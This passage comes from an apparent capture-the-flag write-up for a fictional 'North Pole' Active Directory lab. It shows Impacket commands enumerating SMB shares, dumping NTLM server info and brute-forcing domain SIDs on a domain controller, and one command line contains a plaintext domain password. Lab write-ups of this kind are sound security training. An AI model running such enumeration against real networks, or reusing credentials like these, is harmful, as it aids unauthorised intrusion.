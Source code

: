```
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

# ls super_secret_research
[-] [Errno 2] No such file or directory: 'super_secret_research'

# cat todo.txt
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit
```

Let's look at other shares. Most are inaccessible. NETLOGON is empty.

```
use IPC$
# ls
-rw-rw-rw-          3  Mon Jan  1 00:00:00 1601 InitShutdown
[removed]
```

NTLM info:

```
$ DumpNTLMInfo.py 10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

[+] SMBv1 Enabled   : False
[+] Prefered Dialect: SMB 3.0
[+] Server Security : SIGNING_ENABLED | SIGNING_REQUIRED
[+] Max Read Size   : 8.0 MB (8388608 bytes)
[+] Max Write Size  : 8.0 MB (8388608 bytes)
[+] Current Time    : 2023-12-13 07:33:32.812993+00:00
[+] Name            : npdc01
[+] Domain          : NORTHPOLE
[+] DNS Tree Name   : northpole.local
[+] DNS Domain Name : northpole.local
[+] DNS Host Name   : npdc01.northpole.local
[+] OS              : Windows NT 10.0 Build 20348
[+] Null Session    : False
```

Look at SIDs.

```
$ lookupsid.py northpole.local/elfy:'J4`ufC49/J4766'@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.0.0.53
[*] StringBinding ncacn_np:10.0.0.53[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-797234457-4040996451-3763944187
498: NORTHPOLE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: NORTHPOLE\alabaster (SidTypeUser)
501: NORTHPOLE\Guest (SidTypeUser)
502: NORTHPOLE\krbtgt (SidTypeUser)
512: NORTHPOLE\Domain Admins (SidTypeGroup)
513: NORTHPOLE\Domain Users (SidTypeGroup)
514: NORTHPOLE\Domain Guests (SidTypeGroup)
515: NORTHPOLE\Domain Computers (SidTypeGroup)
516: NORTHPOLE\Domain Controllers (SidTypeGroup)
517: NORTHPOLE\Cert Publishers (SidTypeAlias)
518: NORTHPOLE\Schema Admins (SidTypeGroup)
519: NORTHPOLE\Enterprise Admins (SidTypeGroup)
520: NORTHPOLE\Group Policy Creator Owners (SidTypeGroup)
521: NORTHPOLE\Read-only Domain Controllers (SidTypeGroup)
522: NORTHPOLE\Cloneable Domain Controllers (SidTypeGroup)
```

[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster